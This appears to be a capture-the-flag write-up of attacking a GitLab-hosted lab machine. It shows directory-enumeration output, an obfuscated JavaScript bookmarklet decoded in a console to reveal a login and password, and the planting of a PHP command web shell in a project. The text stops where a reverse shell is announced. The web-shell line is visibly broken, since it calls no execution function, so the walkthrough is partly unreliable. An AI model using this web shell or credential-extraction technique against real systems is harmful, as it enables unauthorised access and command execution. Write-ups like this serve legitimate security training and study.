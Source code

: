 /profile (Status: 301)
/public (Status: 200)
/root (Status: 200)
/explore (Status: 200)
/ci (Status: 301)

There was an interesting link called Gitlab Login:

When I click the link it doesn’t respond so I will check the web page source there is an interesting js code

<DT><A HREF="javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()" ADD_DATE="1554932142">Gitlab Login</A>
    </DL><p>
</DL><p>
So I modified the code to excute js console

var _0x4b18=['\x76\x61\x6C\x75\x65','\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E','\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64','\x63\x6C\x61\x76\x65','\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64','\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78'];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5];
So I typed it like this in my terminal

root@ch4n:~# js
> var _0x4b18=['\x76\x61\x6C\x75\x65','\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E','\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64','\x63\x6C\x61\x76\x65','\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64','\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78'];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5];
Thrown:
ReferenceError: document is not defined
> _0x4b18
[ 'value',
  'user_login',
  'getElementById',
  'clave',
  'user_password',
  '11des0081x' ]
so we got the creds.

User – clave
password – 11des0081x
After logging in using this creds,I found two projetcs profile and developer




In here I created a simple cmd shell.

<?php ($_REQUEST['cmd']); ?>

Then I check it with whoami cmd,it worked so let’s grab the reverse shell

I used this reverse shell
